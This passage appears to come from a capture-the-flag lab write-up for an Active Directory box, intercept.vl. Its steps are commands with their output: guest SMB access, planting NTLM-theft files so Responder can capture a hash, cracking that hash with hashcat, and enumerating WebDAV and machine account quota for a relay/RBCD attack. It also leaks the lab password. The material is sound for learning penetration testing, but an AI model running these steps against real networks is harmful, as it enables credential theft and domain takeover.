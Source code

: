 
```bash
SMB         10.10.152.69    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
SMB         10.10.152.69    445    DC01             [-] intercept.vl\toto:toto STATUS_LOGON_FAILURE 

netexec smb 10.10.152.70 -u 'toto' -p 'toto'
SMB         10.10.152.70    445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:intercept.vl) (signing:False) (SMBv1:False)
SMB         10.10.152.70    445    WS01             [+] intercept.vl\toto:toto (Guest)
```
As we can see, we have guest session on WS01, let's connect : 

![alt text](../assets/image_intercept/1readme.png)

So there is potentially a user activity in this share, let's try to put some file using : [this](https://github.com/Greenwolf/ntlm_theft)

Put all files in the directory where is the readme.txt and set a responder like this :

```bash
Responder.py -I tun0
```

![alt text](../assets/image_intercept/2imagerresponder.png)

Now use hashcat to crack the hash like this : 

```bash
hashcat --hash-type 5600 --attack-mode 0 hash.txt /usr/share/wordlists/rockyou.txt
```
```bash
netexec smb 10.10.152.70 -u 'KATHRYN.SPENCER' -p 'REDACTED'
SMB         10.10.152.70    445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:intercept.vl) (signing:False) (SMBv1:False)
SMB         10.10.152.70    445    WS01             [+] intercept.vl\KATHRYN.SPENCER:REDACTED
```
Nice !! (it's also a valid user on the DC btw)

## Coerce, Relay to perform RBCD

After many many enumeration we can find that WEBDAV is enabled on WS01, MAQ is at 10 and ldap signing is disabled :

```bash
netexec smb 10.10.152.70 -u 'KATHRYN.SPENCER' -p 'REDACTED' -M webdav
SMB         10.10.152.70    445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:intercept.vl) (signing:False) (SMBv1:False)
SMB         10.10.152.70    445    WS01             [+] intercept.vl\KATHRYN.SPENCER:REDACTED 
WEBDAV      10.10.152.70    445    WS01             WebClient Service enabled on: 10.10.152.70
```
```bash
netexec ldap 10.10.152.69 -u 'KATHRYN.SPENCER' -p 'Chocolate1' -M maq
SMB         10.10.152.69    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
LDAP        10.10.152.69    389    DC01             [+] intercept.vl\KATHRYN.SPENCER:Chocolate1 
MAQ         10.10.152.69    389    DC01             [*] Getting the MachineAccountQuota
MAQ         10.10.152.69    389    DC01             MachineAccountQuota: 10
```
